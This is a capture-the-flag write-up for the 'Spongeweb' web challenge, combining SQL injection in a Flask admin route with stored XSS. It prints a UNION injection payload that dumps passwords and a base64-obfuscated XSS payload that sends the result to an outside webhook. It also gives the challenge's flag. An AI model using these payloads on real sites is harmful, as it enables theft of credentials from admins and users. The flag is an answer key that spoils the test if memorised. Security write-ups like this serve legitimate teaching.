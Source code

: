 # Spongeweb
> I really like hacking.
> I really like privacy.
> And I really like spongebob.
> I combined all of them and created an anonymous sharing platform with HTML support. Feel free to share payloads, malware, and stolen credit cards ;).
> Btw it's called spongeweb, but it has nothing to do with [this](https://trollpasta.com/wiki/SpongeWeb).

## About the Challenge
We were given a source code that you can download the source code [here](spongeweb.zip)

## How to Solve?
This is a combination between Cross-Site Scripting (XSS) and SQL Injection (SQLi). The flag was located in the admin password (You can check in the `users` table). Instead of stealing the cookie, we can exploit the website using SQL Injection because of there is no filter in `/admin` endpoint

```python
@app.route('/admin', methods=['GET', 'POST'])
def admin():
	if 'username' not in session:
		return redirect(url_for('login'))
	#view analytics
	if 'query' in request.args:
		query = request.args.get('query')
		try:
			cur = get_db().execute("SELECT count(*) FROM {0}".format(query))
		except:
			return render_template('adminPanel.html') , 500
		result = cur.fetchall()
		cur.close()
		return render_template('adminPanel.html', result=result, param=query)	
	else:
		return render_template('adminPanel.html')
```

And we need to print the flag by using `users union select (select password from users)--` payload. Example:

```
GET /admin?query=users union select (select password from users)--
Host: xxxxx
User-Agent: xxxx
...
```

And because we can't access `/admin` endpoint directly, we need to exploit the website using XSS to trick the admin to execute SQL injection and then send the result into our webhook. Here is the final payload I used to obtain the flag

```
<img src=x onerror=eval(atob("ZmV0Y2goJy9hZG1pbj9xdWVyeT11c2VycyUyMHVuaW9uJTIwc2VsZWN0JTIwJTI4c2VsZWN0JTIwcGFzc3dvcmQlMjBmcm9tJTIwdXNlcnMlMjktLScpLnRoZW4oKHIpPT5yLnRleHQoKSkudGhlbigocik9PndpbmRvdy5sb2NhdGlvbi5ocmVmPSdodHRwczovL3dlYmhvb2suc2l0ZS9iN2M3YjMwYy0xNTM2LTQ2NzItYTE1Yy02NDZiY2QxZWYyOGUvJyt3aW5kb3cuYnRvYShyKSk="))>
```

Create the thread and then report the URL to admin. My webhook:

![webhook](images/webhook.png)

Decode the `Base64` encoded string to obtain the flag

![flag](images/flag.png)

```
srdnlen{XSSS_cr0Ss_S1T3_sP0nG3wEb_SQLi}
```
